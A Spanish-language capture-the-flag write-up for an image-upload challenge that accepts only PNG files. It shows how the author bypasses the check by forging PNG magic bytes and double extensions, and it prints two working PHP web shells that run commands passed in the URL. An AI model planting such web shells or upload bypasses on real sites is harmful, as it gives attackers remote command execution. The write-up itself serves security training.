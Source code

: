 
# Descripcion
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.

## Hints
None

# Solucion
Lo primero que hay que hacer es hacer un reconocimiento en la pagina. En este caso, solo tiene la opcion de subir archivos. En el codigo fuente nada sospechoso. Busque en el robots.txt y encontre informacion interesante.

Ahora se donde se alojan los archivos que se suben. Nos menciona que verifica que los primeros bytes para saber si es un png.
Ahora localizo los bytes de un archivo png con esta pagina:

- https://en.wikipedia.org/wiki/List_of_file_signatures
Ahora creo un archivo php con una webshell:
```
<?php system($_GET['cmd']); ?>
```

usamos `hexeditor` para modificar los bytes del php a png. 
Reescribimos el nombre y ponemos la extension `.png`. 
Subimos la imagen y accedemos a ella

Por medio de la url, agrego el parametro `?cmd=id` para realizar la inyeccion de codigo, pero no funciono.

En este caso, busco una webshell en php en google y uso este:

```
|   |
|---|
PNG
|<html>|
||<body>|
||<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">|
||<input type="TEXT" name="cmd" autofocus id="cmd" size="80">|
||<input type="SUBMIT" value="Execute">|
||</form>|
||<pre>|
||<?php|
||if(isset($_GET['cmd']))|
||{|
||system($_GET['cmd'] . ' 2>&1');|
||}|
||?>|
||</pre>|
||</body>|
||</html>|

```

Ahora, nombre este archivo como `payload.png.php`. Ahora subo este archivo y lo buscamos:

Vemos que interpreto correctamente la webshell. Hacemos un `ls ..` para ver los archivos del directorio padre y justo ahi esta la flag.

Ya con el nombre de la flag, accedo a flag:

![[images/flagTrickster.png]]